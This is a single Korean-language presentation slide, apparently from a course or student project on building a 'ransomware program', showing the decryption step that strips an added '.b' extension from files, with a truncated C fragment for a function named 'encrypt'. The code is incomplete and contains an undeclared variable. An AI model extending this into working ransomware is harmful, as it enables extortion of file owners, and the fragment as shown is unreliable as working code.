

02 랜섬웨어 프로그램
-#2 복호화 프로그램
#2-2 확장자명 바꾸기-복호화
char* aa(char string[]) {
   int string_length = 0;
   while (string[string_length]) ++string_length;
   string[string_length - 1] = 0;
   string[string_length - 2] = 0;
   return string;
}
// string이 들어오면 string 의 형식은
// C:\test\mymp3\a.mp3.b 형식으로
// 되어있을 것이다.
// 그것에서 마지막 ".b"를 지우는 함수
int encrypt(char *filename, char *filepath)
{
   char filefullname[1000], fileoldname[1000], *filenewname;
   sprintf(filefname, "%s/%s", filepath, filename);
   // filename에 파일경로와 파일확장자명을 붙여서 저장
   sprintf(fileoldname, "%s", filefullname);
   // fileoldname에 filefullname의 문자열 값을 저장
   char data[1024];
   unsigned int read_size, i;
   long frpos, fwpos;
   FILE *fp;